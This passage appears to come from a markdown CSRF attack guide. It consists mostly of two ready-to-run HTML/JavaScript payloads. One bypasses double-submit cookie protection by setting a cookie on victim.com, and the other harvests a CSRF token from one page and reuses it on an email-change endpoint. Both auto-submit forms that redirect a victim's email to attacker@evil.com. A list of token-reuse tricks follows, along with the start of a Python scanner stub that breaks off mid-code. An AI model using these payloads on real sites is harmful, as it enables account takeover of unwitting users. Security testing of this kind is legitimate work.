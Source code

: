  - **Exploiting improper token validation**
    - Double-submit cookie bypass:
      ```html
      <script>
        // If application uses double-submit cookie pattern
        document.cookie = "csrf_token=attacker_controlled_value; path=/; domain=victim.com";
        setTimeout(function() {
          var form = document.createElement("form");
          form.action = "https://victim.com/api/settings";
          form.method = "POST";
          form.innerHTML = '<input name="csrf_token" value="attacker_controlled_value"><input name="email" value="attacker@evil.com">';
          document.body.appendChild(form);
          form.submit();
        }, 1000);
      </script>
      ```
    - Token scope exploitation:
      - Using token from one form on another endpoint
      - Reusing expired but not invalidated tokens
      - Leveraging tokens across subdomains
    - Implementation:
      ```html
      <script>
        // Harvest token from low-sensitivity page
        fetch('https://victim.com/user/preferences', {credentials: 'include'})
          .then(r => r.text())
          .then(html => {
            // Extract token
            let token = html.match(/name="csrf_token" value="([^"]+)"/)[1];
            // Use on high-sensitivity endpoint
            let form = document.createElement('form');
            form.action = 'https://victim.com/user/email/change';
            form.method = 'POST';
            form.innerHTML = `
              <input type="hidden" name="csrf_token" value="${token}">
              <input type="hidden" name="new_email" value="attacker@evil.com">
            `;
            document.body.appendChild(form);
            form.submit();
          });
      </script>
      ```

- **Advanced detection and testing methodologies**
  - **Automated scanning approach**
    - Custom CSRF scanner development:
      ```python
      def scan_for_csrf(url, session):
          # 1. Authenticate and establish session
          session.get(url + "/login", data={"username": "test", "password": "test"})
          